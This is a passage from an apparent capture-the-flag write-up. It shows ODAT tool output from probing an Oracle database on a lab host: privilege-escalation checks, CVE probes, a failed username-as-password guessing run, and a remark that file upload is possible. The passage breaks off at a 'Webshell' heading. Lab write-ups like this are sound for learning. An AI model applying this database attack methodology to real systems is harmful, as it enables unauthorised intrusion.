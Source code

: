     [+] OK
    [2.15] SMB authentication capture ?
    [+] Perhaps (try with --capture to be sure)
    [2.16] Gain elevated access (privilege escalation)?
    [2.16.1] DBA role using CREATE/EXECUTE ANY PROCEDURE privileges?
    [+] OK
    [2.16.2] Modification of users' passwords using CREATE ANY PROCEDURE privilege only?
    [-] KO
    [2.16.3] DBA role using CREATE ANY TRIGGER privilege?
    [-] KO
    [2.16.4] DBA role using ANALYZE ANY (and CREATE PROCEDURE) privileges?
    [-] KO
    [2.16.5] DBA role using CREATE ANY INDEX (and CREATE PROCEDURE) privileges?
    [-] KO
    [2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?
    [+] Impossible to know
    [2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
    Exception in thread Thread-1:
    Traceback (most recent call last):
      File "threading.py", line 808, in __bootstrap_inner
      File "threading.py", line 761, in run
      File "CVE_2012_3137.py", line 105, in __sniff_sessionkey_and_salt__
      File "site-packages/scapy/sendrecv.py", line 570, in sniff
      File "site-packages/scapy/arch/linux.py", line 470, in __init__
      File "site-packages/scapy/arch/linux.py", line 139, in attach_filter
      File "socket.py", line 224, in meth
    error: [Errno 22] Invalid argument
    
    [-] KO
    
    [3] (10.10.10.82:1521): Oracle users have not the password identical to the username ?
    The login XS$NULL has already been tested at least once. What do you want to do:                               | ETA:  00:00:00
    - stop (s/S)
    - continue and ask every time (a/A)
    - continue without to ask (c/C)
    c
    100% |#########################################################################################################| Time: 00:00:42
    [-] No found a valid account on 10.10.10.82:1521/XE
    

In looking through what we can do, there’s a great diagram on the [odat GitHub
page](https://github.com/quentinhardy/odat) that shows how each plugin tested
for above maps to capabilities on the box:

![odat](https://0xdfimages.gitlab.io/img/ODAT_main_features_v2.0.jpg)

Based on the output, it seems that don’t have the ability to run commands
(which ends up not being true, see section at the end), but we can upload and
download files.

## Webshell
